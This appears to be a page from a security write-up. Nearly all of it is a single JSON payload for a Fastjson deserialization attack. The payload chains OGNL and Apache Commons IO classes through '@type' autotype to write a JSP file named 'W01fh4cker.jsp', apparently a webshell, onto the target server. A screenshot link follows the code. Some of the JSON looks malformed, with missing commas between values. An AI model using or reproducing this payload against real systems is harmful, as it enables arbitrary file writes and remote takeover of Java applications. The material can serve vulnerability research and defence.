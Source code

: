 ```plain
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""}},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker.jsp","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su17":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su18":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su19":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},}
```

[![](assets/1706959415-4dba3f03704bdc813227696837032218.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021212732555.png)
